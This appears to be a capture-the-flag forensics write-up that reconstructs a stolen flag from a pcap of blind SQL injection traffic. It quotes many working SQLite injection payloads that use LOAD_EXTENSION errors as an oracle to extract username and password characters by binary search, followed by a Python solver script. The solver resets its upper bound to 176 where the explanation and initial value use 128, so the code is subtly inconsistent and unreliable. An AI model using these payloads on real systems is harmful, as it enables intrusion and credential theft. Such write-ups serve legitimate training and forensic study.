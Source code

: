 
Opening the pcap we can see from `Statistics > Protocol Hierarchy` it's all HTTP. Applying the filter `http.request || http.response`, we see a lot of requests of the type:
```
/api/v1/loot/' OR CASE WHEN ((SELECT length(username) FROM users LIMIT 0, 1)=1) THEN LOAD_EXTENSION(0) ELSE 0 END -- -

/api/v1/loot/' OR CASE WHEN ((SELECT substr(username,1,1) FROM users LIMIT 0, 1)>char(64)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
```

This is a SQL injection using response code as a validator, in this case if we guess incorrectly we get a `404` HTTP response, while correct guess gives `500` HTTP response because `LOAD_EXTENSION(0)` produces an error.

An extra trick was added, the SQL injection uses a binary search to identify the character. Looking through a few of the requests, we can identify it always starts at `char(64)`.
```
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,1,1) FROM users LIMIT 0, 1)>char(64)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,1,1) FROM users LIMIT 0, 1)>char(96)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,1,1) FROM users LIMIT 0, 1)>char(80)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,1,1) FROM users LIMIT 0, 1)>char(72)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,1,1) FROM users LIMIT 0, 1)>char(68)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,1,1) FROM users LIMIT 0, 1)>char(70)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,1,1) FROM users LIMIT 0, 1)>char(71)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,2,1) FROM users LIMIT 0, 1)>char(64)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,2,1) FROM users LIMIT 0, 1)>char(96)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,2,1) FROM users LIMIT 0, 1)>char(112)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,2,1) FROM users LIMIT 0, 1)>char(120)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,2,1) FROM users LIMIT 0, 1)>char(124)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,2,1) FROM users LIMIT 0, 1)>char(122)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
/api/v1/loot/' OR CASE WHEN ((SELECT substr(password,2,1) FROM users LIMIT 0, 1)>char(121)) THEN LOAD_EXTENSION(0) ELSE 0 END -- -
```
Considering the ASCII table and printable ranges we can deduce `64 == (128+32)//2`, i.e. the lower bound starts at 32, upper bound at 128.

Complete solver script
```python
#!/usr/bin/env python3
import dpkt
import re
from urllib.parse import unquote
request, response = [], []
getresp = 0
pcap = dpkt.pcap.Reader(open('stolen_loot.pcap', 'rb'))
for ts, buf in pcap:
    # Extract the request and the corresponding responses
    eth = dpkt.ethernet.Ethernet(buf)
    ip = eth.data
    tcp = ip.data
    if tcp.dport == 5000 and len(tcp.data)>0:
        http = dpkt.http.Request(tcp.data)
        uri = unquote(http.uri)
        if not 'substr(password' in uri:continue
        request.append(uri)
        getresp = 1
    if tcp.sport == 5000 and len(tcp.data)>0 and getresp:
        try:
            http = dpkt.http.Response(tcp.data).status
            response.append(http)
            getresp = 0
        except: continue

lb, ub = 32, 128
find = re.compile(r"char\((\d+)\)") # Rex out the guessed char
sol = '' # Lazy just append everything into one long string since we know flag format :)
for req, resp in zip(request, response):
    # Loop over the requests and responses adjusting bounds like binary search
    c = int(find.search(req).group(1))
    if resp == '500':
        lb = c+1
    else:
        ub = c
    if lb == ub:
        # lowerbound == upperbound, we've found our character
        sol += chr(lb)
        lb, ub = 32, 176
# Rex out the flag from the solved string
print(re.search(r'TG21\{[^\}]+\}', sol).group(0))
```

